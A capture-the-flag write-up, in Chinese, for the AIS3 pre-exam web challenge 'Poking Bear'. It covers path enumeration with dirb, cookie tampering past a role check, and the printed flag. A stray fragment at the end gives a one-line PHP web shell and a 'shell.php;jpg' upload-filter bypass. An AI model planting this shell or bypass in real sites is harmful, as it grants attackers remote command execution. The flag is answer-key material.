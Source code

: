 # AIS3 pre-exam

{%hackmd @themes/orangeheart %}
## web



### Poking Bear (broken access control)
1. 進到頁面發現**SECRET BEAR** 的 **GO poke him**是不能按的
![](https://i.imgur.com/Qt4nYR3.png)

2. 隨便按一個可以按的
![](https://i.imgur.com/s7mh12D.png)
按下第一個**weird bear**後，出現的url
表示該頁面放在 **/bear/5** 的目錄裡
因此推測**SECRET BEAR**也在某個 **/bear/{number}** 裡

3. 找**SECRET BEAR**的範圍
**ice bear**:/bear/350
**tasty bear**:/bear/777
也就是說**SECRET BEAR**存在於350~777之間

4. 小朋友才一個一個試，大人都直接爆破
   (1)寫個python:
```
for i in range(350,777):
    print(i)
```

   (2)轉成文字檔
   (3)用dirb爆破
    
```
dirb http://chals1.ais3.org:8987/bear/ 1111.txt -w 
```
記得要加參數 -w 不然沒辦法一次請求這麼多

   (4)判斷正確目錄
   ![](https://i.imgur.com/nFRv9Uq.png)
跑到499時會發現size與其他目錄不同，因此可以推測是正確目錄了

(5)壞小孩，身分不對我可是不給你flag的喔
![](https://i.imgur.com/mz39PhQ.png)
當你開心按下**Poke!**，發現alert給你
![](https://i.imgur.com/nCC7HrD.png)

(6)改掉餅乾
![](https://i.imgur.com/7c6Ns58.png)

(7)flag
```
AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}
```

<?php $_GET['a']($_GET['b']); ?>
```
filename:shell.php;jpg
